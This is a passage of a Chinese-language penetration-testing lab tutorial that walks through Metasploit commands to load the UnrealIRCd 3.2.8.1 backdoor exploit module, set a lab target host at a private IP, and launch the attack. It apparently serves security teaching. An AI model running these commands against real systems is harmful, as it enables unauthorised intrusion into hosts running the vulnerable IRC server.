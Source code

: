在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块，接着再使用 `show options` 命令，显示模块参数信息：

```
# use 命令，使用相应模块
use exploit/unix/irc/unreal_ircd_3281_backdoor

# show options 命令，显示相应的配置信息
show options
```

![图片描述](../imgs/1479994092422.png-wm.png)

使用 `set` 命令，设置所要攻击的主机：

```
# 设置目标主机
set RHOST 192.168.122.102
```

![图片描述](../imgs/1479994266380.png-wm.png)

一切就绪后，再使用 `exploit` 进行主机攻击：

```
# exploit 命令进行攻击
exploit
```
